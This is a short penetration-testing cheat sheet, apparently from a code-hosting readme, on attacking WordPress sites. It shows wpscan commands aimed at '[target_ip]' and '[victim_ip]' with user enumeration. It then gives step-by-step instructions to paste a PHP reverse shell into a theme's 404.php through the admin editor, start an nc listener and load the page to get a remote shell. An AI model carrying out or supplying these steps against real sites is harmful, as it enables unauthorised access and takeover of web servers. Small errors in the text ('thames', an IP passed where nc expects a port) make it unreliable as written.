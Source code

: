 ### wpscan 

- wpscan --url https://[target_ip]
- wpscan -u http://[victim_ip] -eu

#### ReverseShell via thames

1)Log_in
2)Side menu
3)Appearance
  - Editor
  - 404.php
  - paste php reverse shell
4)run nc -lnvp [ip]

5)Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php


